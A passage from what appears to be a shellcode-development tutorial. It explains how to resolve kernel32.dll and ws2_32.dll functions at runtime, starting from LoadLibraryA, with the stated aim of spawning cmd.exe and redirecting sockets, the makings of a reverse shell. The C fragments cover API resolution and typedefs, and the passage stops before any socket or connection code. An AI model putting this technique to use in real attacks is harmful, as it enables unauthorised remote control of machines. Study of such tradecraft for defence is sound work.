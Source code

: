 2. there's a success check before `printf`.

3. both functions are called via pointers.

4. the proper casting ensures calling convention.

## codeShift

![hexasm](/hexasm.png)

building upon the foundations of `memWalk`, we can design an even more advanced technique to handle multiple DLLs, resolve network APIs, create processes, manipulate handles, and redirect sockets.

### advanced API resolution

we'll need extensive API resolution here, across multiple DLLs. we can split them up into `kernel32.dll` functions and `ws2_32.dll` network functions.

the implementation follows a specific pattern.

```c
// phase 1: get base API
LoadLibraryAFunc = GetSymbolAddress((HANDLE)kernel32dll, loadlibrarya_c);

// phase 2: use base API to expand capabilities
ws2_32dll = (UINT64)((LOADLIBRARYA)LoadLibraryAFunc)(ws2_32_c);

// phase 3: resolve additional APIs from new DLL
WsaStartupFunc = GetSymbolAddress((HANDLE)ws2_32dll, wsastartup_c);
```

#### `kernel32.dll` functions

```c
#define DEFAULT_BUFLEN 1024

// function pointer types for kernel32.dll
typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR lpcBuffer);
typedef BOOL (WINAPI* CREATEPROCESSA)(LPCSTR lpApplicationName, LPSTR lpCommandLine, LPSECURITY_ATTRIBUTES lpProcessAttributes, LPSECURITY_ATTRIBUTES lpThreadAttributes, WINBOOL bInheritHandles, DWORD dwCreationFlags, LPVOID lpEnvironment, LPCSTR lpCurrentDirectory, LPSTARTUPINFOA lpStartupInfo, LPPROCESS_INFORMATION lpProcessInformation);
typedef DWORD(WINAPI* WAITFORSINGLEOBJECT)(HANDLE hHandle, DWORD dwMilliseconds);
typedef BOOL(WINAPI* CLOSEHANDLE)(HANDLE hObject);
```

this can be seen as the primary phase. we're using `memWalk` to get `kernel32.dll`. this resolves `LoadLibraryA` as a bootstrap function, which creates a "bridge" to loading additional DLLs.

- `LoadLibraryA`: required as a bootstrap for loading `ws2_32.dll`.

- `CreateProcessA`: needed to spawn `cmd.exe`.

- `WaitForSingleObject`: process synchronization.

- `CloseHandle`: cleanup resources.
